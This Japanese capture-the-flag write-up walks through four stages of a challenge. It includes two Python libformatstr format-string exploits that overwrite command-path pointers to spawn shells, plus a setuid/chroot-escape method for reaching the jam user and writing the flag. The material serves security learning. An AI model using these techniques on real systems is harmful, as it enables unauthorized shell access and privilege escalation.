 #### stage1

jamserverに接続すると実行される /home/jam/bin/putskeyの出力にAAで「Key is CurryRice」と書かれているが、制御文字で隠されている。

lessで表示したら答えが出てきた。

#### stage2

pureserverは 入力を受け取りprintfした後、 /usr/bin/calを起動する。

"/usr/bin/cal"を指すポインタが書き換え可能。バイナリ内に"/bin/sh"があるので、そこにポインタを変更することでシェルを起動できる。

/home/pure/key.txtのキーワードを読み込めるようになる。

フラッグワードのファイルに書き込むにはjamserverの権限が必要なので、まだ書き込めない。

exploit:

    #!/usr/bin/python
    #pureserver
    from libformatstr import *
     
    DEST = 0x23485C70
    BINSH = 0x23467CB0
    BUFIDX = 4
     
    p = FormatStr()
    p[DEST] = BINSH
     
    print p.payload(BUFIDX)

#### stage3

jamserverは /home/jamにchrootし権限降格した後、/bin/putskeyを起動する。文字列"/bin/putskey"が書き換え可能。

/home/jam/tmpのパーミッションが777なのでpureserverの権限でファイルをコピーできる。

chroot環境には最低限のライブラリしか入っていないので、jamserverでの作業にはbusyboxを使う。

まず、pureserverのシェルで busyboxを /home/jam/tmpにコピーする。

次に/bin/shを/home/jam/tmp/putskeyとしてコピーする。(入力文字列の長さ制限が厳しいので、最低限の書き換えで済むようにする)

exploitで"/bin/putskey"を"/tmp/putskey"に書き換えてシェルを起動すると、/home/jam/key.txtにあるキーワードを読み込めるようになる。

exploit:

    #!/usr/bin/python
    from libformatstr import *
    import sys
    import pack
    DEST = 0x23485D48    #/bin/putskey
    BUFIDX = 4
     
    p = FormatStr()
    p[DEST] = "/tmp"
     
    sys.stdout.write(p.payload(BUFIDX))

#### stage4

jamserverでシェルをsetuidし、pureserverから叩くことでchroot環境外でjamユーザになれる。

/home/key.txtにあるキーワードが読み込めるようになる。

さらに/var/www/flag.txtにフラッグワードを書き込むことができるようになる。
